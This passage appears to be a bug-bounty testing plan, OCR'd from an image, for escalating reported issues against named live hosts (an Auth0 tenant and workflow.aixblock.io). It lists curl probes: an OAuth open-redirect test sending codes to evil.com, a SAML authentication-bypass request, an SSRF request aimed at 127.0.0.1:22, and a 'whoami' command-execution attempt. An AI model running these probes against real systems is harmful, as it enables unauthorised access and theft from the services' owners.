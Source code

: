 2. **Test Auth0 Client ID Exploitation**
   ```bash
   # Test Auth0 configuration endpoint
   curl -s "https://dev-ilxhqh05t3onfvz7.us.auth0.com/.well-known/openid_configuration"
   
   # Test for OAuth misconfiguration
   curl -s "https://dev-ilxhqh05t3onfvz7.us.auth0.com/oauth/authorize?client_id=mnOTnb7yaS4A6BQw65zQ7szH3ct6qZiw&response_type=code&redirect_uri=https://evil.com"
   ```

3. **Test SAML Endpoint Exploitation**
   ```bash
   # Test SAML ACS endpoint
   curl -s "https://workflow.aixblock.io/api/v1/authn/saml/acs" -v
   
   # Test for SAML-based authentication bypass
   curl -s "https://workflow.aixblock.io/api/v1/authn/saml/acs" \
     -H "Content-Type: application/xml" \
     -d '<?xml version="1.0"?><saml:Response xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion">...</saml:Response>'
   ```

4. **Test Webhook Endpoints for SSRF**
   ```bash
   # Test webhook endpoints
   curl -s "https://workflow.aixblock.io/api/v1/webhooks" -v
   
   # Test for SSRF via webhook URLs
   curl -s "https://workflow.aixblock.io/api/v1/webhooks" \
     -H "Content-Type: application/json" \
     -d '{"url": "http://127.0.0.1:22", "method": "GET"}'
   ```

5. **Demonstrate Clear Attack Chain**
   - Link disclosed data to specific vulnerabilities
   - Show how configuration data enables other attacks
   - Demonstrate privilege escalation path
   - Prove business impact

#### **Issue #318: Server Information Disclosure**
**Current Status**: Server versions often not exploitable
**Enhancement Strategy**:

1. **Research nginx 1.18.0 CVEs and Exploits**
   ```bash
   # Research specific CVEs
   curl -s "https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=nginx+1.18.0"
   
   # Check for privilege escalation CVEs
   curl -s "https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=nginx+privilege+escalation"
   ```

2. **Test for Privilege Escalation**
   ```bash
   # Test for local privilege escalation
   curl -s "https://workflow.aixblock.io/api/v1/execute" \
     -H "Content-Type: application/json" \
     -d '{"command": "whoami", "elevate": true}'
   ```
